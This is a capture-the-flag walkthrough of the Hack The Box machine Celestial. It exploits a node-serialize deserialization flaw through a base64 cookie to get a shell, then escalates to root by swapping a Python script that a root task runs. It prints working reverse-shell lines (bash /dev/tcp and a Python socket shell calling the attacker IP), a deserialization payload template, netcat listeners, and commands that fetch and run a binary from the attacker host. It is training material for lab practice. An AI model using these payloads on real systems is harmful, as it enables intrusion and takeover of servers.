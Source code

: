 # Celestial [HTB](https://app.hackthebox.com/machines/130)
![celestial-01]()

## Recon

After adding an entry for our target in `/etc/hosts`, i start enumerating with `namp`:

```bash
nmap -sC -sV -A -p- celestial.htb -oN nmap.result
``` 

![nmap-res-02]()

We have a single `Node.js` web server running on port 3000, lets take a look at it.


### Node.js Express Port 3000

Lets start by openning the site at `http://celestial.htb:3000`

![site-03]()

Ok, not much to see here, lets open `Burp` and take a closer look at what's happenning in the background:

![burp-04]()

When we make an initial request, Altough the server replied with a `200` OK HTTP status, it prints
out a `404` text header. Along with that, the server gives us a cookie. If we then refresh the page, 
our client requests the same root directory, but this time adds the cookie and now we get the page:

![cookie-05]()


So the cookie is being used here for something. When I initially researched `Node.js` cookies, I found
[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)'s page,that describes a tool to decrypt the cookies. 

But if we pay close attention we will see that the cookie format is different from whats been given to 
us be the target. So this tool will not help us. 

Then i took a closer look at the cookie itself, at first i thought it was encrypted with a strong 
encryption algorithm, but still I decided to check it againts [hash-identifier](https://hashes.com/en/tools/hash_identifier):

![base64-06]()

If we take our cookie and [decode](https://www.base64decode.org/) it we see the following:

![decode-07]()

So the cookie is just a base64 encoded JSON data. The `username` and `num` keys are interesting. 
I think they are used to render the text on the main page. Lets set the `num` argument to `4` encode it and send it to the target:

![num-08]()

Now lets send that to the server as the cookie and see what happens:

```bash
curl -H 'Cookie: profile= eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjQifQo=' http://celestial.htb:3000
```

![response-09]()

We can see the response has changed. We can conclude from this that the server is using data extracted
from the cookie to render the web page. And since we can easily control what goes in the cookie, we can 
possibly temper with the server's backend. 

Now the question is, how we can levrage this to get access to the system? 

So i started to play around with different payloads, like `"num": "id"`. Which lead me to an interesting error:

![eval-10]

The `eval()` function in JavaScript evaluates and executes java code, this is a potential attack vector. 
So i tried to to send a reverse shell with the different payloads. None worked for me, but the following one brought yet another interesting error:

```java
"num":"exec(\"/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.61/443;cat <&5 | while read line; do $line 2>&5 >&5; done'\");"
```

![unserialize-11]()


While googeling this error, i came across an interesting [artical](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). Apperantly, in some 
versions of the `node-sirialize` module, we can execute arbitrary code by declaring a serialized functionpassed inside a cookie and immediatly invoke it with a function expression. 

I've tried to find a working payload for quite some time, I tried a few different exploits from `ExploitDB`, but they did not work for me. So i decided to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) script to generate a JavaScript reverse shell payload.

After downloading the script, i generated my payload with:

```bash
./nodejsshell.py 10.10.14.61 443
```

![gen-payload-12]()

This results in a rather large output. I took the `<nums>` output and wrapped it inside a serliazed function and i invoked it at the end with `()`:

```javascript
"_$$ND_FUNC$$_function (){eval(String.fromCharCode(<nums>))}()"
```

I took the payload and placed it as the value for the `num` property in the cookie and base64 encoded it:

![encode-13]()


I started my listener with:

```bash
rlwrap nc -lnvp 443
```

And i sent the payload to the target:

![send-14]()

This gave me access to the system:

![shell-15]()


## Privilege Escalation

The first thing i did after landing the shell was to upgrade it with:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upgrade-shell-16]()

Now it's a bit more intuitive. Then i tried to snatch quick wins by running `history`, `sudo -l`, as well
as `find / -perm -4000 2>/dev/null` but with no luck. 

If we take a look at our user's group membership with `id` we can see that our user is a part of the `sudo` and `adm` groups, but in order to use `sudo` we need our user's password which i wasnt able to find. 

So intead i decided to have a look around the system, if we list out the contents of our home folder we 
will se somthing interesting:

![home-dir-17]()

We have a text file in our home folder owned by root, this is unusual. I'm thinking that a task is 
probably running in the background doing this. Lets get [pspy64](https://github.com/DominicBreuker/pspy)
on the target and take a look at the background processes. 

Use a python server to host the file with:

```bash
python3 -m http.server 80
```

Download the file from the target and execute it using:

```bash
wget http://10.10.14.61/pspy64
chmod +x pspy64 
./pspy64
```
![task-18]()

Here it is. We have root (UID 0), spwaining `bin/sh` to run a python script found in our user's `~/Documents` directory. The output from the script is saved to the `output.txt` file we saw erlier. 

If pay close attention to the task, we can see a few different commands here are being executed, 
but we only really care about the first one, if we can inject code into this file we can pop a reverse 
shell as root. Everything after the first command will be halted due to the reverse shell connection.

What i ended up doing, is creating a pyhton reverse shell script in my Kali machine:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",9001));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Then, i deleted the orignal `script.py` on the the target and downloaded my version with:

```bash
rm script.py 
wget http://10.10.14.61/script.py
```

Then i started my listener with:

```bash
rlwrap nc -lnvp 9001
```

And waited for the connection:

![root-19]()



